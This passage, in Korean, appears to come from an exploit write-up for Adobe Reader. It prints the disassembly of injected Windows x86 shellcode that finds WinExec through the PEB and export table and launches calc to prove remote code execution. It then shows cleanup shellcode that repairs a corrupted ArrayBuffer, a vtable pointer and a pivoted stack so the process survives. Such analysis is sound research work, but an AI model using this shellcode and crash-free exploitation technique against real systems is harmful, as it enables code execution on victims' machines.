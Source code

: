 삽입된 shellcode를 디스어셈블한 결과는 아래와 같습니다

```nasm
89e0           mov     eax, esp
83e818         sub     eax, 18h
53             push    ebx
52             push    edx
56             push    esi
57             push    edi
50             push    eax
55             push    ebp
90             nop     
31d2           xor     edx, edx
52             push    edx; 0
6863616c63     push    636C6163h; "calc"
54             push    esp
59             pop     ecx
52             push    edx
51             push    ecx
648b7230       mov     esi, dword ptr fs:[edx+30h]; PEB
8b760c         mov     esi, dword ptr [esi+0Ch]; PEB_LDR_DATA
8b760c         mov     esi, dword ptr [esi+0Ch]; InLoadOrderModuleList
ad             lods    dword ptr [esi]; eax <- AcroRd32.exe's _LDR_DATA_TABLE_ENTRY
8b30           mov     esi, dword ptr [eax]; esi <- KERNEL32.dll's _LDR_DATA_TABLE_ENTRY
8b7e18         mov     edi, dword ptr [esi+18h]; edi <- KERNEL32 dll base
8b5f3c         mov     ebx, dword ptr [edi+3Ch]; ebx <- PE Headaer Offset
8b5c1f78       mov     ebx, dword ptr [edi+ebx+78h]; ebx <- Export Table Offset
8b741f20       mov     esi, dword ptr [edi+ebx+20h]; esi <- Name Pointer Table offset
01fe           add     esi, edi; add KERNEL32 base to esi(Name Pointer Table addr)
8b541f24       mov     edx, dword ptr [edi+ebx+24h]; edx <- Ordinal Table Offset
0fb72c17       movzx   ebp, word ptr [edi+edx]; ebp <- Ordinal Number
42             inc     edx
42             inc     edx; move to next
ad             lods    dword ptr [esi]; Function name offset
813c0757696e45 cmp     dword ptr [edi+eax], 456E6957h; compare Function_Name with "WinE"
75f0           jne     20000491; if WinExec Found, no jump
8b741f1c       mov     esi, dword ptr [edi+ebx+1Ch]; esi <- Address Table Offset
01fe           add     esi, edi; esi <- Address Table addr
033cae         add     edi, dword ptr [esi+ebp*4]; edi <- edi(KERNEL32 base) + WinExec Offset
ffd7           call    edi; WinExec("calc", 0)
```

이는 `WinExec("calc", 0)`를 호출하는 Windows x86 대상 Universal Shellcode로 계산기 프로그램을 실행하여 RCE 익스플로잇을 증명합니다.

마지막으로 `WinExec`가 리턴한 다음에는 아래와 같은 shellcode가 실행되어 shellcode에 사용된 레지스터를 복구하고 변조된 `ArrayBuffer`의 length, `f0`의 vtable 주소,  pivot된 스택 등을 복원합니다. 이후 사전에 메모리에 저장해둔 `defaultValue` 함수의 주소로 `jmp`하여 익스플로잇이 성공한 후에도 프로세스에서 크래시가 발생하지 않게 만듭니다.

```nasm
200004b0 58             pop     eax
200004b1 58             pop     eax
200004b2 5d             pop     ebp
200004b3 58             pop     eax
200004b4 8b4860         mov     ecx, dword ptr [eax+60h]
200004b7 8b5064         mov     edx, dword ptr [eax+64h]
200004ba 8911           mov     dword ptr [ecx], edx
200004bc 5f             pop     edi
200004bd 5e             pop     esi
200004be 5a             pop     edx
200004bf 5b             pop     ebx
200004c0 89ec           mov     esp, ebp
200004c2 83ec30         sub     esp, 30h
200004c5 90             nop     
200004c6 90             nop     
200004c7 90             nop     
200004c8 8b7068         mov     esi, dword ptr [eax+68h]
```